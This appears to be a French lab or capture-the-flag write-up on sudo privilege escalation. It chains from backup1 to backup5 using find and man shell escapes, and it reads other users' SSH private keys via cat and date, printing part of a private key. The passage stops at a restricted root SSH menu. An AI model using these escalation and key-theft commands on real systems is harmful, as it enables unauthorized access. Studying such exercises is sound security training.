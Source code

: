 ### **Q 3.2 - Différentes techniques d’élévation de privilèges à partir d’une configuration vulnérable de sudo**

**backup1 → backup2 : /usr/bin/find**   
`sudo -u backup2 /usr/bin/find . -exec bash {} \;`  
C'est possible de executer des commandes avec find, alors il suffit de executer **bash**

**backup2 → backup3 : /usr/bin/man**  
C'est possible aussi d'executer des commandes avec **man**, il suffit d'executer bash:   
`sudo -u backup3 man man → !bash`

**backup3 → backup4 : /bin/cat**
Celui-ci est un peu plus délicat. Avec cat on peut voir le contenu des documents présents dans le fichier d'user _backup4_, especialement celles de ssh !   
On peut voir que le contenu du fichier _/home/backup4/.ssh/authorized_keys_ est égal au contenu du fichier _/home/backup4/.ssh/id_rsa.pub_; ça veut dire que on peut accéder l'user **backup4** en utilisant **SSH** et sa clé privé **id_rsa**.  
Comme on a le droit de faire **_cat_**, on peut simplement éxécuter la commande suivante pour copier le contenu de id_rsa d'user backup4 dans une fichier local d'user backup3:  
`sudo -u backup4 cat /home/backup4/.ssh/id_rsa > id_rsa`  
et finalement on peut se connécter avec SSH:  
`ssh -i id_rsa backup4@localhost -p 4343`

**backup4 → backup5 : /bin/date**  
Le même concept est appliqué ici pour prendre la valeur du fichier id_rsa d'user **backup5**, en utilisant la commande:  
`sudo -u backup5 date -f /home/backup5/.ssh/id_rsa`  
Mais, dans ce cas, on doit traîter les données, vu qu'elles sont pas dans la bonne forme:  
```
date: invalid date ‘-----BEGIN OPENSSH PRIVATE KEY-----’
date: invalid date ‘b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn’
date: invalid date ‘NhAAAAAwEAAQAAAQEAyaGKDwy0IbWEr0pTjIh0GPLn84aHmFnNGVrZQCpeh4BBsC+9xrQe’
date: invalid date ‘3wwxXkad70N+UNFm68Mc4Wxxcu8RHwwJ1PVEm0BrQN/0PKMQ4Q1vZ27O01+N8N4/Xucm6I’
date: invalid date ‘Vltdg/Db2R4qRKFLTlVqchSYW4KsnGcM2i9pFbzMDMN7+HHrBJ22cK1tAFQFiKWt+BAusO’
...
```

On utilise vim pour traiter des données et les mettre dans la bonne forme en faisant `:%s/date: invalid date .//g` et après `:%s/.$//g`. Après on peut accéder en utilisant SSH:

`ssh -i id_rsa backup5@localhost -p 4343`

## **4.  Root sur le serveur backup !**

Dans la compte d'user backup5, on peut pas utiliser la commande `sudo -l` comme tout à l'heure. Il faut trouver une autre moyen d'accéder en root. On peut voir que, si on essaie la commande `ssh -p4343 -lroot localhost`, la commande affiche le message suivant: 

>=========================================  
enter the command number you want to run:   
allowed commands are :  
=========================================    
[1] /usr/lib/nagios/plugins/check_host localhost  
[2] /usr/lib/nagios/plugins/check_icmp localhost  
[3] /usr/lib/nagios/plugins/check_load -w 1,1,1 -c 10,10,10  
[4] /usr/lib/nagios/plugins/check_http -I 127.0.0.1  
[5] /usr/lib/nagios/plugins/check_ssh -4 -p 22 localhost  
[6] /usr/lib/nagios/plugins/check_users -w 2 -c 3  
[7] /usr/lib/nagios/security_plugins/answer_question.sh  
^--- this one answers the question !  
=========================================  
Which command do you wanna run ?
